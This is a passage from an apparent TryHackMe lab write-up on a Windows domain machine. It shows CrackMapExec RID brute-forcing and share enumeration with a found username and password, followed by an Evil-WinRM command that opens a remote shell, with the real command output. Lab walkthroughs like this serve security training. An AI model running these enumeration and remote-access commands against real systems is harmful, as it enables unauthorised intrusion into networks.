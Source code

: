 # User Enumeration continued

## CrackMapExec

With these credentials, we use “RID bruteforcing” with CME to see if there are any other users that we have not found yet. 

We also found some shares that are readable and writeable.

`crackmapexec smb $IP -u 'j.rock' -p 'Serviceworks1' --rid-brute | grep SidTypeUser`

```bash
└─$ crackmapexec smb $IP -u 'j.rock' -p 'Serviceworks1' --rid-brute | grep SidTypeUser
SMB         10.10.30.4      445    WIN-SERVICES     500: SERVICES\Administrator (SidTypeUser)
SMB         10.10.30.4      445    WIN-SERVICES     501: SERVICES\Guest (SidTypeUser)
SMB         10.10.30.4      445    WIN-SERVICES     502: SERVICES\krbtgt (SidTypeUser)
SMB         10.10.30.4      445    WIN-SERVICES     1008: SERVICES\WIN-SERVICES$ (SidTypeUser)
SMB         10.10.30.4      445    WIN-SERVICES     1111: SERVICES\j.rock (SidTypeUser)
SMB         10.10.30.4      445    WIN-SERVICES     1112: SERVICES\j.doe (SidTypeUser)
SMB         10.10.30.4      445    WIN-SERVICES     1113: SERVICES\w.masters (SidTypeUser)
SMB         10.10.30.4      445    WIN-SERVICES     1114: SERVICES\j.larusso (SidTypeUser)
```

`crackmapexec smb 10.10.30.4 -u j.rock -p 'Serviceworks1' --shares`

![Untitled](/windows_services/Untitled%203.png)

# Initial Access

We use Evil-WinRM to get a shell on the machine with the credentials we found earlier.

`evil-winrm -i $IP -u j.rock -e '/home/kali/tryhackme/services'` 

```bash
┌──(kali㉿kali)-[~/tryhackme/services]
└─$ evil-winrm -i $IP -u j.rock -e '/home/kali/tryhackme/services'                                            
Enter Password: 

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\j.rock\Documents>
```
